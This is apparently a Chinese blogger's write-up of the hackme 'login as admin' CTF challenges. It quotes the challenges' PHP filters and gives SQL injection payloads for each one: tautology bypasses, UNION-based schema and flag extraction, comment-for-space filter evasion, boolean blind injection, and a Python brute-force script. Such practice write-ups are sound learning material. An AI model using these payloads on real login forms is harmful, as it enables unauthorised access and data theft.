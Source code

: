 ```yaml
---
title: 菜鸡又来玩注入
---
```

没错，还是我，我又来了，还是死磕hackme
---
这次的记录，记录一下 login as admin0，1系列
---
（一）login as admin 0:
	查看源码，发现这里加了个过滤，具体如下：
	if (strstr($strl, 'or 1=1') || strstr($strl, 'drop') ||
        strstr($strl, 'update') || strstr($strl, 'delete')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
	代码审计发现，主要是or 1=1 与“‘”被过滤（PS:菜鸡如我怎么可能都发现，过滤单引号真没看出来，这里感谢某位大佬）
	于是乎想到用||代替or，用转义字符代替单引号，同时注释掉密码部分，于是构造如下payload
	admin\' ||1=1#
	于是成功注入，但是~~~~~~进入之后竟然说：you are not admin!
	WHAT！关键时刻还是Google啊，原来表中默认第一位为非admin,于是看下一位，改payload为;
	admin\' ||1=1 limit 1,1#
	密码任意，成功进入拿到flag1
	
注：这里有个问题，同样是构造恒等式，为什么2=2在这里不行，明明没有被过滤，还有源码中已经定义的$_GET['show_source'] === '1'
	为什么不能用来构造，等待大佬解答
	
————————————————————————————————————————————————————————————————————————————————————————我是分隔线！！！

（二）login as admin 0.1:
	同样的源码，不同的在于需要注入数据库找到flag2,关键代码如下：
	SELECT * FROM `user` WHERE `user` = '%s' AND `password` = '%s'",
        $_POST['name'],
        $_POST['password']
	还是自己太弱，刚看到这个就想当然的POST误导了，一直尝试用HACKBAR传参，终以失败告终。换个方法，再输入框注入，成功
	在上一题中，其实admin可以不加，但这里必须加，这里还判断了是否为空的问题，构造如下payload；
	admin\' and 1=2 union select 1,2,3,4 limit 0,1#
	此时返回2，显然2就是我们要的注入点，于是继续套路:
	admin\' and 1=2 union select 1,database(),3,4 limit 0,1#
	此时回显login_as_admin0，这就是数据库名，继续；
	admin\' and 1=2 union select 1,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA="login_as_admin0" limit 0,1),3,4 limit 0,1#
	得到表名：h1dden_f14g，继续;
	admin\' and 1=2 union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME="h1dden_f14g" limit 0,1),3,4 limit 0,1#
	得到列名:the_f14g,继续；
	admin\' and 1=2 union select 1,(select the_f14g from h1dden_f14g limit 0,1),3,4 limit 0,1#
	哈哈，这里就可以得到flag2了
	
————————————————————————————————————————————————————————————————————————————————————————我还是分隔线！！！
	
（三）login as admin 1:
	类似的题目，最大的区别是过滤了空格和1=1;
	if (strstr($strl, ' ') || strstr($strl, '1=1') || strstr($strl, "''") ||
        strstr($strl, 'union select') || strstr($strl, 'select ')
    ) {
        return '';
    }
    return str_replace("'", "\\'", $str);
	那肯定是要找东西替换空格，第一想法是：\0,可惜失败了，这个时候自然得再次向强大的Google寻求帮助，OK，使用/**/完美解决
	下面就开始构造payload了
	admin\'/**/or/**/1<2/**/limit/**/1,1#
	于是轻松拿下第一个flag1
	
————————————————————————————————————————————————————————————————————————————————————————没错，我就是分隔线！！！
	
（四）login as admin 1.2；
	这个题目相对而言就要难很多，测试竟然没有回显，题目提示通过布尔盲注完成，于是开始恶补布尔盲注，总算还是收获了点东西；
	对于这个页面，主要通过登陆成功与否来进行判断。
	根据套路，首先肯定是要判断数据库名。于是第一步判断数据库名的长度，通过构造如下payload判断
	admin\'/**/or/**/length(database())>=20
	如此逐步判断（使用二分法更快捷），显然可以将长度求出，最后得出为15
	于是下一步逐一试出这15个字母，可以通过正则表达式和ASCII，原谅我正则真的看不懂，于是选择ASCII，构造如下：
	admin\'/**/or/**/ascii(substr(database(),i,1))=j/**/limit/**/0,1#
	其中i遍历所有字母，j遍历可能的ASCII码（33-127）
	这里苦逼的我写的py竟然不行，只得手动查找，得到database()="login_as_admin1"
	下面的步骤当然就是找出表名的长度，于是构造：
	admin\'/**/or/**/length(select/**/TABLE_NAME/**/from/**/information_schema.TABLES/**/where/**/TABLE_SCHEMA="login_as_admin1"/**/limit/**/0,1)>=30)/**/limit/**/0,1#
	最后竟然得到了长度为32，这正是要了我的老命了，关键我的py还没用，所以只列出下一步的操作，结果只能自测了@@@
	admin\'/**/or/**/ascii(substr(select/**/TABLE_NAME/**/from/**/information_schema.TABLES/**/where/**/TABLE_SCHEMA="login_as_admin1"/**/limit/**/0,1),i,1)=j/**/limit/**/0,1#
	
	下面附上我那没用的py,希望可以有大佬指点一番：(原因好像是根本没登陆进去，贼奇怪)
	import requests
	result=""
	url="https://hackme.inndy.tw/login1/index.php"
	for i in range(1,16):
		for j in range(33,127):
			user="admin\'/**/or/**/ascii(substr(database(),i,1))=j/**/limit/**/0,1#"
			data={
            "name":user,"password":"1223"
        }
			r=requests.post(url=url,data=data)
			str="You are not admin!"
			if str in r.content.decode():
				result +=chr(j)
				break
	print (result)
	

说明:经指点，发现以上代码存在两个关键问题：
①.对于py来说，编译时会自动进行反编译，所以这里需要将admin后面的斜杠换为双斜杠，以保证转义之后仍剩余一个
②.致命错误，在user中应该将i,j拿出来书写，而不是放在字符串内
	
	
	
	
	
	
	
	
	
	